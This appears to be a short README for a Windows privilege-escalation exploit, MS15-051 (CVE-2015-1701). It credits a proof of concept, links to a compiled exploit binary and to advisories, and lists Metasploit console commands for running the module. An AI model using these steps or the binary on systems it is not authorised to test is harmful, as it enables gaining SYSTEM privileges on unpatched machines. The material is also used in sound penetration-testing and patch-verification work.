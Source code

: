 # MS15-051

- The POC was from [@hfiref0x](https://github.com/hfiref0x/CVE-2015-1701)

Vulnerability reference:
 * [MS15-051](https://technet.microsoft.com/en-us/library/security/ms15-051.aspx)
 * [CVE-2015-1701](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/37049-32.exe)
 
# load the module within the Metasploit console
```
 msf > use exploit/windows/local/ms15_051_client_copy_image
      msf exploit(ms15_051_client_copy_image) > show targets
            ...targets...
      msf exploit(ms15_051_client_copy_image) > set TARGET <target-id>
      msf exploit(ms15_051_client_copy_image) > show options
            ...show and set options...
      msf exploit(ms15_051_client_copy_image) > exploit
```

### Links

* [Win32k Elevation of Privilege Vulnerability](https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html)


